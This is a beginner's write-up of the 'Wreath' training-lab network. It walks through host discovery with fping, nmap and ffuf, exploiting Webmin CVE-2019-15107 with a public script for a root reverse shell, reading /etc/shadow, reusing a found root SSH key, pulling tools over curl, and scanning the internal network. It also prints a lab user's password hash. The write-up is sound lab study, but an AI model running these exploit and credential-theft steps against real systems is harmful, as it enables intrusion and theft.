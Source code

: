 ![image](https://github.com/user-attachments/assets/b5bd875b-fcc3-4286-afcc-a077677343fc)Wreath is designed as a learning resource for beginners with a primary focus on:

Pivoting
Working with the Empire C2 (Command and Control) framework
Simple Anti-Virus Evasion Techniques



# Brief
There are two machines on my home network that host projects and stuff I'm working on in my own time -- 
one of them has a webserver that's port forwarded, so that's your way in if you can find a vulnerability! It's serving a website that's pushed to my git server from my own PC for version control, then cloned to the public facing server. See if you can get into these! My own PC is also on that network, but I doubt you'll be able to get into that as it has protections turned on, doesn't run anything vulnerable, and can't be accessed by the public-facing section of the network. Well, I say PC -- it's technically a repurposed server because I had a spare license lying around, but same difference.


# Enumeration 

As with any attack, we first begin with the enumeration phase
1. Fping: Using the command fping -agq 10.200.73.200/24 the network was ping to figure out what is in the network
The reult returned 3 Ip address,
  A. 10.200.73.1 - the gateway
  B. 10.200.73.200 - Which is the public facing server 
  C. 10.200.73.250 - unknown machine
![image](https://github.com/user-attachments/assets/1f8ce2fb-c9a3-4f5a-8f7b-7f3a33af18e1)



2. Nmap: This was used to further enumerate the Hosts found in the network
   A.  10.200.73.250 Host: This was scanned using nmap -T4 -sV -A 10.200.73.250  -oN scan.txt  and the result only showed
       i.  port 22 is actively running OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)

   ![image](https://github.com/user-attachments/assets/13b0b801-9bd8-4a18-aeeb-ca6942862a54)

  B. 10.200.73.200 Host: This was scanned using nmap -T4 -sV -p- 15000  -A 10.200.73.200  -oN scan.txt, and it returned the following
      i. Port 22 runnig OpenSSH 8.0 (protocol 2.0)
      ii. Port 80 running Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
      iii.Port  443   Apache/2.4.37 (centos) OpenSSL/1.1.1c
      ![image](https://github.com/user-attachments/assets/01be25df-0866-42bd-be16-3791b2237e54)
Going forward with the enumeration, the website was accessed, and was accessible only after adding the domain name resolved on the bowsrr when the IP addressed was input into the browser, into the /etc/hosts file
![image](https://github.com/user-attachments/assets/2c468504-6e52-4663-ba16-9dcba2c33952)
The website was subjcted to directory bruteforcing using  ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.200.73.200/FUZZ -fc 403
![image](https://github.com/user-attachments/assets/f65d363c-0923-42b2-8f3b-090c8273d094)

....
      iv. Port 9090 which showed closed status but is running zeus-admin
      v. Port 10000 running      MiniServ 1.890 (Webmin httpd): The website was accessed and it contained a login in page.  
![image](https://github.com/user-attachments/assets/8603471a-26cb-42e9-9b7e-d151c5ff90ba)


      vi. The operating system is linux CenSOS


# Exploitation

## exploiting the 10.200.73.200 host 
From the Enumeratin, it was discovered that the webserver on port 10000 of the  10.200.73.200 Host is running  MiniServ 1.890 (Webmin httpd)
A closer look at this version showed that it is vulnerable to RCE that gives a root shell CVE-2019–15107 
![image](https://github.com/user-attachments/assets/b454cbaf-d8cd-470c-8066-516afbdf71b8)

Using a publicly available python script and setting up a listner on port 2294, the RCE vulnerablity was exploited
./exploit.py  10.200.73.200 10000   10.50.66.4 2294           
screnshot of the script:
![image](https://github.com/user-attachments/assets/d845e147-f37a-42b0-9363-9b7067507d0d)
Screenshot of the listener getting root shell
![image](https://github.com/user-attachments/assets/07b17aab-1e5a-4daf-b85e-a084bffcf05e)


2. Password Enumeration
cat /etc/shadow was used to enumerate the root's password hash, then wreath's password
![image](https://github.com/user-attachments/assets/3c72cbaf-9513-4c9a-86f9-6550fc9c87ca)

![image](https://github.com/user-attachments/assets/88fd9c34-d863-4a8d-9816-04b9ea6a41f5)


3. Credential enumerations:
The root's home directory was enumerated, and an SSH key was discovered which is going to be useful for getting direct access into the server using the root's credentials without going through the RCE exploitation again.
![image](https://github.com/user-attachments/assets/76989e81-ed00-4c20-9b68-7cc2bce3e6f6)

The login was initiated using ssh root@10.200.97.200 -i key.txt  and the login was successful
![image](https://github.com/user-attachments/assets/2f0382a1-5064-44b3-86c5-e1e31387626b)


## exploiting the 10.200.73.250 host 
nothing was done here as the only service running on the taret was not foud to be vulnerable 


# POST EXPLOITATION

# Enumeration

Since we are now inside the compromised machine using the found SSH keys, the enumeration of the internal network begins.
The tool needed here incldes fping, and NMAP which are both not available on the machine. This tools wiere firstly delivered onto the machine

1. Delivery of Enumeration tools: The toools can be delivered through various methods but the second method was used here
  a. using SCP
  b. starting a webser using python on the attackers machine, then using curl on the compromised machine to download the tool


2. Carrying out the enumeration
   a. Scanning the internal network for hosts: Using the command ./nmap-USERNAME -sn 10.200.73.1-255
   result showed that four hosts were found, which includes the
     i. 10.200.73.100 - newly found
     ii. 10.200.73.150 - newly found. This was not foound during the nmap scan from the external netwwork
     iii. 10.200.73.200 - Which is the public facing server
     iv. 10.200.73.250 - unknwown machine running SSH service

   ![image](https://github.com/user-attachments/assets/4bdcf134-7fd7-4361-a516-3afd4b6d88a0)


   b. scanning each host for services
     i. using ./nmap-USERNAME  -sT  10.200.73.200 the response includes
   PORT      STATE SERVICE  Initially detected
22/tcp    open  ssh          Yes
80/tcp    open  http          yes
443/tcp   open  https          yes
3306/tcp  open  mysql            no, It was  checked out for default credentials or no password, but none workd
5355/tcp  open  hostmon          no
10000/tcp open  ndmp            yes

![image](https://github.com/user-attachments/assets/a992ea3e-51f6-4671-8597-544672ffaa89)
l
     ii. using ./nmap-USERNAME  -sT  10.200.73.150 the response includes

Not shown: 6146 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
5357/tcp open  wsdapi
5985/tcp open  wsman
MAC Address: 02:18:54:60:E2:BF (Unknown)
![image](https://github.com/user-attachments/assets/45437171-dbe4-4569-bd36-b96e818cd6e7)
The port 3389 running RDP shows that this host is a windwos machine.

,
     iii. using ./nmap-USERNAME  -sT  10.200.73.100 the response returned no serices, so it is assumed that it can not be accessed from the current poition of the attacker
     ![image](https://github.com/user-attachments/assets/0f0872e5-965f-46e6-9bce-5ff81004fbfd)


c. chcking the /etc/passwd file for other users
    i. twreath:x:1000:1000:Thomas Wreath:/home/twreath:/bin/bash - 
  twreath:$6$0my5n311RD7EiK3J$zVFV3WAPCm/dBxzz0a7uDwbQenLohKiunjlDonkqx1huhjmFYZe0RmCPsHmW3OnWYwf8RWPdXAdbtYpkJCReg.::0:99999:7:::


drwx------.  2 twreath twreath  83 Nov  7  2020 twreath

**





# Pivoting 
Pivoting is the art of using access obtained over one machine to exploit another machine deeper in the network.     





  





